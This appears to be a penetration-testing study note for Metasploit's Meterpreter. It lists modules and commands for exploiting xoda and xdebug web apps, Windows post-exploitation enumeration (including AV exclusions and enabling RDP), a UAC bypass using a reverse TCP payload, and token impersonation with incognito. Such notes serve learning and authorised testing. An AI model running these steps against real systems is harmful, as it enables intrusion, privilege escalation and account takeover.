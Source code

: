 # Meterpreter

- When the target have http/s service on port 80/443, we can try to download the index file `curl <target_url>`
- Check the file content, we see the web app use `xoda` -> We can use the module `xoda_file_upload` to exploit 
- set base path `TARGET_URI` and run

----

- When target open http or https, check open dir and file by `dirb <target_url>`
- If we can get the `phpinfo.php`, try to read it.
  - See the module `xdebug` is enable (<= 2.5.5), we can use the module `xdebug_unauth_exec` to exploit
  - Set `LHOSTS` and `LHOST` (host ip)
  - Run

# Window post exploit

- `get mounts` get mounts volume on the target
- `migrate` migrate to other service, the meterpreter will upgrade to the user own the service
- `post/windows/archmigrate` migrate the architecture
- `post/manage/migrate` migrate to higher privilege service ~ Like manual migrate
- `post/windows/gather/win_privs` Check windows privs of current user.
- `post/windows/gather/enum_logged_on_users` Gather current logged on users
- `post/windows/gather/checkvm` Check if the target is a VM.
- `post/windows/gather/enum_applications` Enum the program install on target
- `post/windows/gather/enum_av_excluded` Enum the folder that the av engine excluded
- `post.../enum_computer` Check it in work domain or not. And get the computer name
- `post.../enum_patches` Check if the patches of windows are installed or not.
  - Alternitive, we open shell, run `systeminfo` for windows
- `post../enum_shares` Check if the target have any share.
- `search rdp` `post../enable_rdp` enable rdp on the target.
- `loot` Collect infor of previours command and save to file

## Bypass UAC 

- Check current user of group: `net localgroup administrator`
- We can use module `bypassuac_injection` to exploit
- We can `set payload windows/x64/.../reverse_tcp`
  - set Lport, and `set target windows\ x64`


--- 

Incognito:
- When we have meterpreter sessions, we can `load incognito` 
- `load_tokens -u`, check if any token we can impersonate
- `impersonate_token "<User>"` -> Migrate.

---
